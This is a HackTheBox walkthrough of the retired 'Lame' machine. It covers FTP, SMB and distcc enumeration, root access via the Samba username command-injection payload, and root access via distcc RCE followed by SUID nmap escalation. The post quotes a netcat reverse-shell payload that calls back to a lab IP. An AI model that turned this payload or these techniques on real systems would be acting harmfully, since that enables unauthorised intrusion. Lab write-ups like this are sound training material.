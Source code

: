 ```yaml
---
title: Lame - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-05 12:00:00 
categories: [HackTheBox,Linux]
tags: [smb,distcc,sudo]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Lame/00-banner.png
  width: 585
  height: 370
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Lame` a retired machine by HackTheBox. Without further ado, let’s begin.

# Recon

## Nmap

As always, we'll start with a nmap scan to discover the open ports and services.

![01-nmap](/assets/img/HTB/Lame/01-nmap.png)

Let's start the FTP enumeration, but before we will run a complete nmap scan in the background to make sure we covered all ports.

![02-nmap](/assets/img/HTB/Lame/02-nmap.png)

The new port that we get is 3632 running distccd service, this could be interesting later.

## FTP

FTP allows anonymous login but the directory is empty.
Searching the version of it using `searchsploit` we find that is vulnerable to a backdoor command execution.

![03-ftp](/assets/img/HTB/Lame/03-ftp.png)

This vulnerability conscist in open a backdoor on the port 6200 when the attacker send a string that contains this characters `:)` as the username and nmap has a script to test it.

![04-backdoor](/assets/img/HTB/Lame/04-backdoor.png)

It looks that is not vulnerable.

## Samba

The next interesting service to enumerate is Samba, but for this occasion we must run smbclient with `--option="client min protocol=NT1"` as [argument](https://forum.hackthebox.com/t/psa-fix-to-smbv1-smbclient-issues/2351) to work with SMBv1 shares.

![05-smbclient](/assets/img/HTB/Lame/05-smbclient.png)

We can access to `tmp` directory but there’s nothing interesting in it.

![06-smbclient](/assets/img/HTB/Lame/06-smbclient.png)

Searching for if there any vulnerability in this version of samba we find a command execution.

![07-smb](/assets/img/HTB/Lame/07-smb.png)

# Exploitation #1 - Samba

Checking the [exploit](https://www.exploit-db.com/exploits/16320), It seems samba execute this command ``"/=` nohup nc -e /bin/sh 10.10.14.31 443`"`` when we login with that as username.

![08-revShell](/assets/img/HTB/Lame/08-revShell.png)

We are root!!!

# Exploitation #2 - Distcc

If we remember the complete nmap scan it show us that there a service running on the port 3632, distcc. We can exploit a remote code execution vulnerability in this service using a [nmap script](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html) .

![09-distcc](/assets/img/HTB/Lame/09-distcc.png)

## Shell as daemon

So let's send a reverse shell.

![10-revShell](/assets/img/HTB/Lame/10-revShell.png)

To get a interactive shell just we must run the next commands.
```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
$   ^Z
$ stty raw -echo;fg
$   reset
$ export TERM=xterm
$ export SHELL=bash
```
## Shell as root

As we see in the screenshot below nmap has SUID permissions.

![11-suid](/assets/img/HTB/Lame/11-suid.png)

Running [gtfoshell](https://github.com/Degr4ne/GTFOShell) to search on GTFOBins in terminal, we get the command to get a shell using nmap.

![13-root](/assets/img/HTB/Lame/13-root.png)
![12-gtfoshell](/assets/img/HTB/Lame/12-gtfoshell.png)

Voila!! We are root again.

That’s it for now guys. Until next time.
